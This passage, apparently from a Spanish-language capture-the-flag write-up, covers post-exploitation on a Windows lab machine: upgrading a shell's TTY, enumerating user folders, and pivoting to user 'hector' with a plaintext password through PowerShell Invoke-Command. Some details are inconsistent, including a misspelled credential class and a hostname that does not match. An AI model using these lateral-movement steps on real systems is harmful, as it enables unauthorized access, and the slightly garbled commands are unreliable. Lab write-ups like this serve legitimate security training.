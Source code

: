 Ya tenemos accesso al systema

### Tratamiento de la TTY {-}

```bash
^Z
stty raw -echo; fg
-> enter
-> enter

whoami
#output
error

cd C:\
#output
error
```

Los dos primeros commandos nos da un error pero a partir de aqui, ya tenemos una full tty shell.

### Enumerando el systema {-}

```bash
cd Users/
dir
cd Hector
dir
#Output
Error

cd ../Administrator
dir
#Output
Error
```

No tenemos derechos para entrar en los directorios de los Usuarios. Pero tenemos una contraseña para el usuario Hector.

### User pivoting al usuario hector {-}

Vemos si podemos lanzar commandos como el usuario hector.

```bash
hostname
#Output
Fidelity

$user = 'fidelity\hector'
$password = 'l33th4x0rhector'
$secpw = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCrendential $user,$secpw
Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {whoami}
#Output
control\hector
```
